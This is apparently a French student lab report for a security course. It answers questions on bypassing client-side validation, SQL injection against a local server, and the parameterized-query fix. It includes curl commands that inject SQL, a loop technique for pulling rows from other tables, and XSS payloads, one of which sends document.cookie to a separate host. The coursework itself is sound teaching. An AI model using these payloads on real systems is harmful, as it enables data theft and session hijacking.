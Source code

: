 # Rendu "Injection"

## Binome

Nom, Prénom, email: KROL Mikolaï mikolai.krol.etu@univ-lille.fr  
Nom, Prénom, email: HOLVOET Adrien adrien.holvoet.etu@univ-lile.fr


## Question 1

* Quel est ce mécanisme?   

La mise en place d'une vérification de l'input par une function javascript avec un regex. Donc une vérification côté client.

* Est-il efficace? Pourquoi?   
Non car c'est très simple de contourner une vérification côté client, il est préférable de faire cela côté serveur. En effet cette vérification peut-être contourner par une simple requête curl ou encore en désactivant le javascript dans la navigateur.

## Question 2

* Votre commande curl   
```
curl -d "chaine=f(-(é_à" http://localhost:8080;
```

## Question 3

* Votre commande curl pour mettre le contenu que je souhaite dans le champ who autre que l'adresse ip 127.0.0.1
```
curl -d 'chaine=mon text%27%,%27ce que je veux%27) -- '  http://localhost:8080;
```


* Expliquez comment obtenir des informations sur une autre table

Pour obtenir les infos d'une autre table, il faudrait connaitre le nom de celle-ci et également les colonnes que l'on souhaite regarder. Et on pourrait alors combiner la commande INSERT INTO avec la commande SELECT pour selectionner les valeurs comprises dans une autres tables, les insérer dans les colonnes txt et who de notre table chaines qui s'affichera sur notre page web.
La commande SQL ressemblerais à ça `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable), (SELECT col2 FROM otherTable))`, il suffirait de limiter chaque select pour n'avoir qu'un seul resultat et ne pas provoquer une erreur SQL : 'Subquery returns more than 1 row'. Ca peut se faire par exemple en rajoutant une clause where id=1 et incrémenter cette id dans une boucle while où on exécutera notre commande curl en boucle afin de récuperer tous les enregistrements. Commande SQL final : `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable where id=i), (SELECT col2 FROM otherTable where id=i))` i s'incrémente à chaque boucle.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.   

Nous utilons donc un Parameterized query et prepared statement afin d'évitez les injections SQL.  Pour cela nous devons premièrement mettre en place un prepared statement sur notre cursor comme ceci : `cursor = self.conn.cursor(prepared=True)`. Ensuite, nous avons créer la parameterized SQL query qui utilisent deux placeholders comme ceci : `requete = "INSERT INTO chaines (txt,who) VALUES(%s, %s)"` Les inputs rentrés par l'utilisateur vont se retrouver dans un tuple  `values = (post["chaine"], cherrypy.request.remote.ip)` qui va prendre  la place de ces placeholders(%s, %s). Il ne suffit plus maintenant que d'utiliser la méthode `execute` du `cursor` afin d'exécutur notre requête SQL, celui-ci prend donc notre parameterized SQL query et notre tuple, comme ceci : `cursor.execute(requete, values)`.   
Ce mécanisme permet d'empêcher donc l'injection SQL de la Question 3

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```
curl -d 'chaine=<script>alert("hello")</script>'  http://localhost:8080;
```

* Commande curl pour lire les cookies
```
curl -d 'chaine=<script>window.location.replace("localhost:4000/search?cookie=" + document.cookie)</script>'  http://localhost:8080;
```

## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.


